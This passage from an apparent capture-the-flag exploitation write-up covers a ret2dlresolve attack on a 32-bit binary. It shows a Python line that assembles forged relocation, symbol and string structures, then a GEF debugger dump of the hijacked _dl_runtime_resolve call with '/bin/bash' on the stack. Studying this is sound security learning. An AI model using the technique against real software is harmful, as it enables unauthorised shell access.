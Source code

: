 ```python 
fake = fake_jmp + fake_sym + fake_str
```

Here's what out fake structs look like in memory (I replaced the addresses with the names of symbols)
``` 
$eax   : 0x29
$ebx   : 0x0
$ecx   : 0x0804b2a4  →  0x0804b01c  →  0xf7ee6530  →  <__memset_sse2_rep+0> endbr32
$edx   : 0x400
$esp   : 0x0804b988  →  0xf7ff5a40  →  0x00000000
$ebp   : 0x08048485  →   leave
$esi   : 0x0804b2a4  →  0x0804b01c  →  0xf7ee6530  →  <__memset_sse2_rep+0> endbr32
$edi   : 0x400
$eip   : 0xf7fd0fe0  →  <_dl_runtime_resolve+0> endbr32
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x0804b988│+0x0000: 0xf7ff5a40  →  0x00000000    ← $esp
0x0804b98c│+0x0004:  test BYTE PTR [edi], ch
0x0804b990│+0x0008:  out dx, eax
0x0804b994│+0x000c: 0x0804b2c4  →  "/bin/bash"
0x0804b998│+0x0010:  add BYTE PTR [eax], al
0x0804b99c│+0x0014:  add BYTE PTR [eax], al
0x0804b9a0│+0x0018:  add BYTE PTR [eax], al
0x0804b9a4│+0x001c:  add BYTE PTR [eax], al
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0xf7fd0fd6 <__tls_init_tp+262> mov    DWORD PTR [eax], 0x20
   0xf7fd0fdc <__tls_init_tp+268> jmp    0xf7fd0f95 <__tls_init_tp+197>
   0xf7fd0fde                  xchg   ax, ax
 → 0xf7fd0fe0 <_dl_runtime_resolve+0> endbr32
   0xf7fd0fe4 <_dl_runtime_resolve+4> push   eax
   0xf7fd0fe5 <_dl_runtime_resolve+5> push   ecx
   0xf7fd0fe6 <_dl_runtime_resolve+6> push   edx
   0xf7fd0fe7 <_dl_runtime_resolve+7> mov    edx, DWORD PTR [esp+0x10]
   0xf7fd0feb <_dl_runtime_resolve+11> mov    eax, DWORD PTR [esp+0xc]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "binary1", stopped 0xf7fd0fe0 in _dl_runtime_resolve (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xf7fd0fe0 → _dl_runtime_resolve()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/2wx $esp
0x804b988:      0xf7ff5a40      0x00002f84
gef➤  p *(Elf32_Rel*)(JMPREL + 0x00002f84)
$7 = {
  r_offset = 0x804b01c,
  r_info = 0x30e07
}
gef➤  p *(Elf32_Sym*)(SYMTAB + (0x30e07 >>8 )* 0x10)
$8 = {
  st_name = 0x3050,
  st_value = 0x0,
  st_size = 0x0,
  st_info = 0x0,
  st_other = 0x0,
  st_shndx = 0x0
}
gef➤  x/s STRTAB + 0x3050
```